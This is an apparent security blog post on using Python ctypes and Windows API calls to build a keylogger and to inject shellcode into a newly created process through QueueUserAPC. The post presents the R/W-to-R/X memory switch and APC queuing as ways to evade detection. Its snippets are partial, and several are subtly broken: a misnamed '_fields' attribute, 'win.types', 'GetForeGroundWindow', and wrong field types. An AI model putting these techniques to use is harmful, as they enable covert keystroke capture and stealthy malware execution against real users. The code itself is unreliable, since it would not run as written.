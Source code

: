 ```yaml
---
layout: post
title: Low-Level Exploits with Python and Windows System Calls
date: 2023-10-30
desc: Leveraging Python to Write Keyloggers, Create Processes, and Perform DLL Injection
keywords: blog,website,python,windows,cybersec,gh-pages,security,network,scripting,PerennaSec,automation
categories:
  - Python
tags:
  - Automation
  - Security
  - Python
icon: icon-html
---
```

***Associated Scripts can be found at https://github.com/perennasec/Python-WinAPI ***

One of the most exhilarating aspects of diving deeper into Python is learning how to utilize the language in order to interface with increasingly lower-level system functions. First, one learns the basics of the Ctypes library, through which one can execute C code and manipulate data in the C language without the need to code and compile a separate program. Given the ubiquity of C as the "lingua franca" of computer systems, this modest capability boasts a cornucopia of possibilities for the enterprising offensive security researcher. Not only does C code allow for users to engage in memory operations that would normally be handled by the Python interpreter, C is the language used as the backbone for all modern operating systems. Note that modern operating systems are *not* written entirely in C; Linux most notably moved to begin including Rust in its kernel. However, at the core of every modern operating system is C code. This is true for the Linux, Mac, and Windows kernels. 

(Note that while this blog will reference core C concepts such as pointers, references/dereferences, and data types, it is beyond the scope of this post to explain these concepts in depth. The author recommends Low-Level Learning on YouTube for a comprehensive, user friendly introduction to the topics. https://www.youtube.com/c/lowlevellearning)

Given the Windows kernel's reliance on C, the Microsoft Developer's Network (MSDN) holds extensive documentation for all its API functions. Everything from memory interactions, process creation and manipulation, debugging functions, and more can be found within the MSDN's notes. To elaborate, the documentation details each function's syntax, required and optional parameters, and return values, as well as details and remarks specific to a function's purpose. See the documentation for the VirtualAllocEx function (https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) for a neat overview. One will find a defining function syntax, as well as explanations of each parameter's associated values and required data types. The manual nature of C makes it necessary to account for a functions return type as well, especially as one will require the output of one function to be included within the input of another. 

![[Pasted image 20231030140217.png]]

For those of you keeping score at home, this means that *the Python programming language can be used to make system calls to the operating system's kernel,* either through interactions with the Windows API, undocumented Native API calls, or via direct system calls to the kernel itself. As one progresses into more advanced topics such as EDR/AV evasion, it becomes necessary to manipulate processes and executions at increasingly lower levels. Even Assembly language will make an appearance, being used to set values in the register & stack that will later be executed by a direct syscall made in kernel mode. 

One can think of some obvious implementations, laying the groundwork for more advanced functionality later on. For example, a simple keylogger can be spun up utilizing the ``WH_KEYBOARD_LL`` hook to monitor low level keyboard input events. The hook will register any key presses and store them within the ``KBDLLHOOKSTRUCT``, before using Python's ``ToAscii`` function to convert all received bytecode into human-readable ASCII characters. Below is a snippet of Python code defining some Windows API functions, the ``KBDLLHOOKSTRUCT`` class used for storing key values, as well as a function used to retrieve the titlebar of the foreground process. Note that when using Ctypes, it is necessary to define Windows API functions by specifying the DLL in which the function can be found, the argument types accepted by the function, and the data type returned by the function. Just as well, structures can be defined utilizing the technique seen in the ``KBDLLHOOKSTRUCT`` class definition. 

```python
HOOKPROC = CFUNCTYPE(LRESULT, wintypes.INT, wintypes.WPARAM, wintypes.LPARAM)

SetWindowsHookExA = user32.SetWindowsHookExA
SetWindowsHookExA.argtypes = (wintypes.INT, HOOKPROC, wintypes.HINSTANCE, wintypes.DWORD) #second arg is HOOKPROC, a pointer to a hook procedure
SetWindowsHookExA.restype = wintypes.HHOOK

GetMessageA = user32.GetMessageA
GetMessageA.argtypes = (wintypes.LPMSG, wintypes.HWND, wintypes.UINT, wintypes.UINT)
GetMessageA.restype = wintypes.BOOL

class KBDLLHOOKSTRUCT(Structure):
  _fields_ = [("vkCode", wintypes.DWORD),
			  ("scanCode", wintypes.DWORD),
			  ("flags", wintypes.DWORD),
			  ("time", wintypes.DWORD),
			  ("dwExtraInfo", wintypes.ULONG)]

def get_foreground_process():
	hwnd = user32.GetForeGroundWindow()
	length = GetWindowTextLengthA(hwnd) #retrieve character length of specified title bar text
	buff = create_string_buffer(length + 1) #copy text of specified window's titlebar into buffer
	GetWindowTextA(hwnd, buff, length + 1)
	return buff.value
	#needs error checking!
```

When utilizing these techniques to create and inject processes, the practice of meticulously detailing Windows function definitions becomes almost notorious. In order to properly call the ``CreateProcess`` Windows API function, structures for ``STARTUPINFO`` and ``PROCESS_INFORMATION`` must first be defined, as follows:

```python 
#STARTUPINFO Structure allows for fine-grained Process Creation control
class STARTUPINFO(Structure):
	_fields = [("cb", wintypes.DWORD),
			   ("lpReserved", LPSTR),
			   ("lpDesktop", LPSTR),
			   ("lpTitle", LPSTR),
			   ("dwX", wintypes.DWORD),
			   ("dwY", wintypes.DWORD),
			   ("dwXSize", wintypes.DWORD),
			   ("dwYSize", wintypes.DWORD),
			   ("dwXCountChars", wintypes.DWORD),
			   ("dwYCountChars", wintypes.DWORD),
			   ("dwFillAttribute", wintypes.DWORD),
			   ("dwFlags", wintypes.DWORD),
			   ("wShowWindow", wintypes.DWORD),
			   ("cbReserved2", wintypes.DWORD),
			   ("lpReserved2", LPBYTE),
			   ("hStdInput", wintypes.HANDLE),
			   ("hStdOutput", wintypes.HANDLE),
			   ("hStdError", wintypes.HANDLE),]
  

#important information for process injection
class PROCESS_INFORMATION(Structure):
	_fields_ = [("hProcess", wintypes.HANDLE),
			    ("hThread", wintypes.HANDLE),
				("dwProcessId", wintypes.DWORD),
				("dwThreadId", wintypes.DWORD),]
```

After which ``CreateProcessA`` can be defined as usual:

```python
CreateProcessA = kernel32.CreateProcessA

CreateProcessA.argtypes = (wintypes.LPCSTR, wintypes.LPSTR, LPSECURITY_ATTRIBUTES, LPSECURITY_ATTRIBUTES, wintypes.BOOL, wintypes.DWORD, wintypes.LPVOID, wintypes.LPCSTR, POINTER(STARTUPINFO), POINTER(PROCESS_INFORMATION))

#MSDN gives LPSTARTUPINFOA & LPPROCESS_INFORMATION, therefore pointers are used

CreateProcessA.restype = wintypes.BOOL
```

An attacker could then create a process, allocate memory within that process, and inject malicious shellcode into the allocated memory. The memory is created with R/W permissions at first to avoid detection, before being changed to R/X in order to execute the payload. Several methods exist for execution of the shellcode, including creating a remote thread to execute the shellcode immediately, or queuing thread execution to be later activated via the ``QueueUserAPC`` and ``ResumeThread`` functions:

```python
#Queue a new thread via QueueUserAPC
#typically a less suspicious API Call

PAPCFUNC = CFUNCTYPE(None, POINTER(win.types.ULONG))

QueueUserAPC = kernel32.QueueUserAPC
QueueUserAPC.argtypes = (PAPCFUNC, wintypes.HANDLE, POINTER(wintypes.ULONG))
QueueUserAPC.restype = wintypes.BOOL

ResumeThread = kernel32.ResumeThread
ResumeThread.argtypes = (wintypes.HANDLE, )
ResumeThread.restype = wintypes.BOOL

#Queue the thread located within the remote_memory variable and identified by h_thread

rqueue = QueueUserAPC(PAPCFUNC(remote_memory), h_thread, None)

#change thread state from suspended to running, which in turn will execute the shellcode and TERM itself

rthread = ResumeThread(h_thread)
verify(rthread)
```
*(please note that the complete code, including definitions for ``h_thread`` and ``verify()`` can be found at the github repository linked above)*

While Python can typically be thought of as a higher-level language, slowed down by its necessary use of an interpreter and limited in its application, the above serves to demonstrate a robust flexibility within Python's capabilities. The inclusion of Ctypes' functionality leads to a world of fresh possibilities and practices within the language. One can utilize Python, if necessary, to craft specific syscalls and directly interact with a system's kernel. Offensive Security Researchers can use these techniques to "live off the land" while on engagements. Attackers gain the ability to fly under the detection capabilities of many popular security solutions, and even to craft custom DLL's through which exploit code can be delivered via the process injection techniques seen above. 
